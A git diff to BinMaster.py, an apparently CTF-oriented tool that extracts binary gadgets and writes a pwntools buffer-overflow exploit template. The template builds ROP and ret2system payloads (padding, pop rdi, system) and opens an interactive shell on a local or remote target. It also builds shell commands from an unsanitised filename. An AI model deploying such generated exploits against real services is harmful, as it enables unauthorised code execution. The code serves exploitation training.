

Full Stack

diff --git a/BinMaster.py b/BinMaster.py
@@ -294,7 +294,7 @@ def dispMenu():
    print(colored(GRAD[5],colour6), end=' ')
    print('\u2551')           
 # -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --- -- -- --- -  
-   print('\u2551' + " UNALLOCATED 1 " + '\u2551', end=' ')
+   print('\u2551' + " PUTS @ PLT    " + '\u2551', end=' ')
    if RAX[:18] == "0x0000000000000000":
       print(colored(RAX,colour7), end=' ')
    else:
@@ -1018,6 +1018,7 @@ while True:
       if FIL[:7].upper() == "UNKNOWN":
          print("[-] Filename not specified...")
       else:
+         print(colored("[*] Examining filename " + localDir + "/" + FIL.rstrip(" ") + "...", colour3))
          command("objdump -D " + localDir + "/" + FIL.rstrip(" ") + " > systems.tmp")
          command("cat systems.tmp | grep system > system.tmp")
          count = lineCount("system.tmp")
@@ -1208,12 +1209,18 @@ while True:
          command("awk '/ _fini/' functions.tmp >> altered.tmp")                  
          cutLine("fini","functions.tmp")
          command("echo '- - - - - - - - - - - - - - - - - - - - - - - -' >> altered.tmp")
+         command("awk '/puts/' functions.tmp >> altered.tmp")
+         cutLine("puts","functions.tmp")
+         command("echo '- - - - - - - - - - - - - - - - - - - - - - - -' >> altered.tmp")                  
          command("cat functions.tmp >> altered.tmp")
          command("rm functions.tmp")
          command("mv altered.tmp functions.tmp")   
-         check = linecache.getline("functions.tmp", 1)
-         if check[:1] == "-":
+         check1 = linecache.getline("functions.tmp", 1)
+         if check1[:1] == "-":
             cutLine("- - - - - -", "functions.tmp")
+         check2 = linecache.getline("functions.tmp", 1)            
+         if check2[:1] == "-":
+            cutLine("- - - - - -", "functions.tmp")            
          with open("functions.tmp", "r") as functions:
             for x in range(0, maxDispl):
                FUNC[x] = functions.readline().rstrip(" ")
@@ -1224,7 +1231,14 @@ while True:
                for line in start:
                   address, checksum = line.split("  ")
                   if checksum[:6] == "_start":
-                     SRT = spacePadding(address, COL1)                     
+                     SRT = spacePadding(address, COL1)         
+         if RAX[:18] == "0x0000000000000000":
+            command("cat functions.tmp | grep 'puts' > puts.tmp ")
+            with open("puts.tmp","r") as main:
+               for line in main:
+                  address, checksum = line.split("  ")
+                  if checksum[:4] == "puts":
+                     RAX = spacePadding(address, COL1)          
          if MAN[:18] == "0x0000000000000000":
             command("cat functions.tmp | grep 'main' > main.tmp ")
             with open("main.tmp","r") as main:
@@ -1784,39 +1798,55 @@ while True:
       if FIL[:7].upper() == "UNKNOWN":
          print("[-] Filename not specified...")
       else:
-         command("echo '#!/usr/bin/python' > " + localDir + "/exploit.py")
+         command("echo '#!/usr/bin/python3' > " + localDir + "/exploit.py")
          command("echo '# coding:UTF-8' >> " + localDir + "/exploit.py")
-         command("echo '' >> " + localDir + "/exploit.py")
+         command("echo '' >> " + localDir + "/exploit.py") # SPACER
          command("echo '# -------------------------------------------------------------------------------------'  >> " + localDir + "/exploit.py")
-         command("echo '#                 PYTHON UTILITY SCRIPT FILE FOR BINARY EXPLOITATION' >> " + localDir + "/exploit.py")
+         command("echo '#                    PYTHON SCRIPT FILE FOR BINARY EXPLOITATION' >> " + localDir + "/exploit.py")
          command("echo '#               BY TERENCE BROADBENT BSC CYBER SECURITY (FIRST CLASS)' >> " + localDir + "/exploit.py")
          command("echo '# -------------------------------------------------------------------------------------' >> " + localDir + "/exploit.py")
-         command("echo '' >> " + localDir + "/exploit.py")
+         command("echo '' >> " + localDir + "/exploit.py") # SPACER
          command("echo 'from pwn import *' >> " + localDir + "/exploit.py")
-         command("echo '' >> " + localDir + "/exploit.py")
+         command("echo '' >> " + localDir + "/exploit.py") # SPACER
          command("echo 'context.clear()' >> " + localDir + "/exploit.py")
-         command("echo 'context.log_level = \"debug\"' >> " + localDir + "/exploit.py")
-         command("echo 'context.binary = \"./" + FIL.rstrip(" ") + "\"' >> " + localDir + "/exploit.py")         
-         command("echo '' >> " + localDir + "/exploit.py")         
-         if COM[:3] == "ELF":
+         command("echo 'context.log_level = \"error\" #  also info or debug' >> " + localDir + "/exploit.py")
+         command("echo '' >> " + localDir + "/exploit.py") # SPACER
+         if COM[:3].upper() == "ELF":
+            command("echo 'elf  = ELF(\"./" + FIL.rstrip(" ") + "\")' >> " + localDir + "/exploit.py")
+            command("echo ' # context.binary = \"./" + FIL.rstrip(" ") + "\"' >> " + localDir + "/exploit.py")
+            command("echo '' >> " + localDir + "/exploit.py") # SPACER
+            command("echo 'rop  = ROP(elf.path)' >> " + localDir + "/exploit.py")
+            command("echo 'libc = ELF(\"" + LIB.rstrip(" ") + "\")' >> " + localDir + "/exploit.py")
+            command("echo 'info(rop.dump())' >> " + localDir + "/exploit.py")
+         else:
+            command("echo '# elf  = ELF(\"./" + FIL.rstrip(" ") + "\")' >> " + localDir + "/exploit.py")
+            command("echo 'context.binary = \"./" + FIL.rstrip(" ") + "\"' >> " + localDir + "/exploit.py")
+         command("echo '' >> " + localDir + "/exploit.py") # SPACER
+         if COM[:3].upper() == "ELF":
             command("echo '#context.os = \"linux\"' >> " + localDir + "/exploit.py")
          else:
             command("echo '#context.os = \"windows\"' >> " + localDir + "/exploit.py")
          command("echo '#context.arch = \"" + ARC.rstrip(" ") + "\"' >> " + localDir + "/exploit.py")
          command("echo '#context.bits = \"" + BIT[:2] + "\"' >> " + localDir + "/exploit.py")
          command("echo '#context.endian = \"" + IND.rstrip(" ") + "\"' >> " + localDir + "/exploit.py")
-         command("echo '' >> " + localDir + "/exploit.py")
-         command("echo 'try:' >> " + localDir + "/exploit.py")
+         command("echo '' >> " + localDir + "/exploit.py") # SPACER         
          if RAD[:7] == "unknown":
-            command("echo '   s = remote(\"0\",0)' >> " + localDir + "/exploit.py")
+            command("echo 'ip_address = \"0\"' >> " + localDir + "/exploit.py")          
          else:
-            command("echo '   s = remote(\"" + RAD.rstrip(" ") + "\", " + POR.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
-         command("echo 'except:' >> " + localDir + "/exploit.py")
+            command("echo 'ip_address = \"" + RAD + "\"' >> " + localDir + "/exploit.py")
+         if POR[:7] == "unknown":
+            command("echo 'port = 0' >> " + localDir + "/exploit.py")         
+         else:
+            command("echo 'port = " + POR + "' >> " + localDir + "/exploit.py")
+         command("echo '' >> " + localDir + "/exploit.py") # SPACER         
+         command("echo 'if ip_address != \"0\":' >> " + localDir + "/exploit.py")
+         command("echo '   s = remote(ip_address, port)' >> " + localDir + "/exploit.py")
+         command("echo 'else:' >> " + localDir + "/exploit.py")
          command("echo '   s = process(\"./" + FIL.rstrip(" ") + "\")'  >> " + localDir + "/exploit.py")
-         command("echo '' >> " + localDir + "/exploit.py")        
+         command("echo '' >> " + localDir + "/exploit.py") # SPACER
          command("echo 'RAX = p64(" + RAX.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
          command("echo 'RBX = p64(" + RBX.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
-         command("echo 'SYS = p64(" + SYS.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
+         command("echo 'SYS = p64(" + SYS.rstrip(" ") + ") # System' >> " + localDir + "/exploit.py")
          command("echo 'RDX = p64(" + RDX.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
          command("echo 'CUS = p64(" + CUS.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
          command("echo 'RDI = p64(" + RDI.rstrip(" ") + ") # pop rdi ; ret' >> " + localDir + "/exploit.py")
@@ -1824,10 +1854,10 @@ while True:
          command("echo 'RBP = p64(" + RBP.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
          command("echo 'RIP = p64(" + RIP.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
          command("echo '' >> " + localDir + "/exploit.py")        
-         command("echo 'start = p64(" + SRT.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
-         command("echo 'main  = p64(" + MAN.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
-         command("echo 'jump  = p64(" + JMP.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
-         command("echo 'write = p64(" + TST.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
+         command("echo 'start= p64(" + SRT.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
+         command("echo 'main = p64(" + MAN.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
+         command("echo 'jump = p64(" + JMP.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
+         command("echo 'test = p64(" + TST.rstrip(" ") + ")' >> " + localDir + "/exploit.py")
          command("echo '' >> " + localDir + "/exploit.py")
          if OF2[:1] == "0":
             command("echo 'offset = " + OFF.rstrip(" ").replace("Bytes","") + "' >> " + localDir + "/exploit.py")
@@ -1836,6 +1866,7 @@ while True:
          command("echo 'padding = \"a\" * offset' >> " + localDir + "/exploit.py")
          command("echo 'terminate = \"\\\\n\"' >> " + localDir + "/exploit.py")         
          command("echo '' >> " + localDir + "/exploit.py")         
+         switch = 0
          if JMP.rstrip(" ") != "0x0000000000000000":
             switch = 1           
          if TST.rstrip(" ") != "0x0000000000000000":
@@ -1843,15 +1874,15 @@ while True:
          if CUS.rstrip(" ") != "0x0000000000000000":
             switch = 3         
          command("echo 'switch = " + str(switch) + "' >> " + localDir + "/exploit.py")
-         command("echo '' >> " + localDir + "/exploit.py")                    
+         command("echo '' >> " + localDir + "/exploit.py") # sPACER                    
          command("echo 'if switch == 1:' >> " + localDir + "/exploit.py")
          command("echo '   payload = flat(padding,jump,terminate)' >> " + localDir + "/exploit.py")
          command("echo '#   print(payload)' >> " + localDir + "/exploit.py")
-         command("echo '' >> " + localDir + "/exploit.py")
+         command("echo '' >> " + localDir + "/exploit.py") # SPACER
          command("echo 'if switch == 2:' >> " + localDir + "/exploit.py")
-         command("echo '   payload = flat(padding,write,terminate)' >> "  + localDir + "/exploit.py")
+         command("echo '   payload = flat(padding,test,terminate)' >> "  + localDir + "/exploit.py")
          command("echo '#   print(payload)' >> " + localDir + "/exploit.py")         
-         command("echo '' >> " + localDir + "/exploit.py")           
+         command("echo '' >> " + localDir + "/exploit.py") # SPACER
          command("echo 'if switch == 3:' >> " + localDir + "/exploit.py")
          command("echo '   payload = flat(padding,RDI,CUS,SYS,terminate)' >> "  + localDir + "/exploit.py")
          command("echo '#   print(payload)' >> " + localDir + "/exploit.py") 
@@ -1862,9 +1893,8 @@ while True:
          command("echo '   s.recvuntil(\">>\")' >> " + localDir + "/exploit.py")
          command("echo '   s.sendline(\"flag\")' >> " + localDir + "/exploit.py")
          command("echo '   s.recvuntil(\":\")' >> " + localDir + "/exploit.py")         
-         command("echo '' >> " + localDir + "/exploit.py")
+         command("echo '' >> " + localDir + "/exploit.py") # SPACER
          command("echo 's.send(payload)' >> " + localDir + "/exploit.py")
-         command("echo '' >> " + localDir + "/exploit.py")
          command("echo 's.interactive()' >> " + localDir + "/exploit.py")
          command("echo 's.close()' >> " + localDir + "/exploit.py")
          print(colored("[*] Python exploit template sucessfully created...", colour3))

diff --git a/README.md b/README.md
@@ -24,7 +24,7 @@ USAGE : python3 BinMaster.py
 
 | LANGUAGE  | FILENAME     | MD5 Hash                         | DESCRIPTION    | VERSION    |
 |------     |------        | -------                          | ------         | ----       |
-| python3   | BinMaster.py | 802692b82931f8c2acc5b47450781883 | Command Centre | Full Stack |
+| python3   | BinMaster.py | aee29a78ef88e5ec40ac214650921c62 | Command Centre | Full Stack |
 
 ### CONSOLE DISPLAY AND VIDEO LINK
 [![RamMater](https://github.com/BroadbentT/BIN-MASTER/blob/master/picture3.png)](https://youtu.be/73nA-Yx8IGU "Binary Master")
